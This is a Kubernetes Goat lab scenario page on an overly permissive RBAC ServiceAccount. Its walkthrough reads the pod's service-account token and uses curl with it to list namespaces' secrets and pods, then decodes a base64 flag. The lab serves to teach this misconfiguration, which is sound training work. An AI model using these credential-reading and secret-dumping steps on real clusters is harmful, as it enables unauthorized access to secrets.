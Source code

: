```yaml
---
title: ⎈ RBAC least privileges misconfiguration
sidebar_label: Welcome
sidebar_position: 2
description: RBAC misconfiguration leads to privilege escalation to gain Kubernetes cluster compromise - Kubernetes Goat Scenario 🚀
slug: rbac-least-privileges-misconfiguration-in-kubernetes-cluster/welcome
---
```


# ⎈ RBAC least privileges misconfiguration

## 🙌 Overview

In the early days of Kubernetes, there is no such concept as RBAC (role-based access control) and mostly it uses ABAC (attribute-based access control). Now it has superpowers like RBAC to implement the security principle of least privilege. Still, most of the real-world workloads and resources end up having wider privileges than it is intended to have. In this scenario, we will see how simple misconfiguration like this can gain access to secrets, more resources, and information.

![](../images/scenario-diagram-wip.png)

By the end of the scenario, we will understand and learn the following

1. Accessing and talking to the Kubernetes API Server using the REST API
2. Working with different Kubernetes resources and querying them
3. Exploiting the misconfigured/overly permissive permissions to gain access to sensitive information and resources

### ⚡️ The story

We commonly see in the real world where developers and DevOps teams tend to provide extra privileges than required. This provides attackers more control and privileges than they intended to be. In this scenario, you can leverage the service account bound to the pod to provide `webhookapikey` access, but using this attacker can gain control over other secrets and resources.

:::info

To get started with the scenario, navigate to [http://127.0.0.1:1236](http://127.0.0.1:1236)

:::

![Scenario 16 Welcome](../images/sc-16-1.png)

### 🎯 Goal

:::tip

Find the `k8s_goat_flag` flag value by gaining access to the Kubernetes secret `k8svaultapikey` by exploiting the RBAC privileges to complete this scenario.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Not sure where the ServiceAccount in k8s pod? </b></summary>
  <div>
    <div>Simple googling and looking at docs can show that you can get service account details avaiolable in pod at <b>/var/run/secrets/kubernetes.io/serviceaccount/</b> 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Stuck at querying the API Server? </b></summary>
  <div>
    <div>Again look at docs here as well. To save your time, here you go <a href="https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/">Accessing the Kubernetes API from a Pod</a>. Have fun 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

This deployment has a custom `ServiceAccount` mapped with an overly permissive policy/privilege. As an attacker, we can leverage this to gain access to other resources and services.

:::

- By default the Kubernetes stores all the tokens and service accounts information in the default place, navigate to there to find the useful information

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

```bash
ls -larth
```

![Scenario 16 checking service account](../images/sc-16-2.png)

- Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges

- To point to the internal API server hostname, we can export it from environment variables

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

- To set the path to the `ServiceAccount` token

```bash
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

- To set the namespace value

```bash
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

- To read the `ServiceAccount` bearer token

```bash
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
````

- To point the `ca.crt` path so that we can use it while querying in the `curl` requests

```bash
export CACERT=${SERVICEACCOUNT}/ca.crt
```

- Now we can explore the Kubernetes API with the token and the constructed queries

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

![Scenario 16 mapping credentials](../images/sc-16-3.png)

- To query the available secrets in the `default` namespace run the following command

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

![Scenario 16 query secrets in default namespace](../images/sc-16-4.png)

- To query the secrets specific to the namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

![Scenario 16 query secrets in specific namespace](../images/sc-16-5.png)

- To query the pods in the specific namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

![Scenario 16 query pods in specific namespace](../images/sc-16-6.png)

:::tip

From here you can try and leverage all the possible Kubernetes operations. As Kubernetes itself works as an API service to create, and delete pods, etc.

:::

- Get the `k8svaulapikey` value from the secrets

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

![Scenario 16 get k8svaultapikey](../images/sc-16-7.png)

- We can decode the base64 encoded value using the following command

```bash
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

- Hooray 🥳 , we found an awesome Kubernetes Goat flag

## 🔖 References

- [RBAC Authorization Kubernetes](https://kubernetes.io/docs/reference/access-authn-authz/rbac/)
- [Accessing the Kubernetes API from a Pod](https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/)
- [More misconfigurations in Kubernetes? check OWASP WrongSecrets](https://github.com/OWASP/wrongsecrets)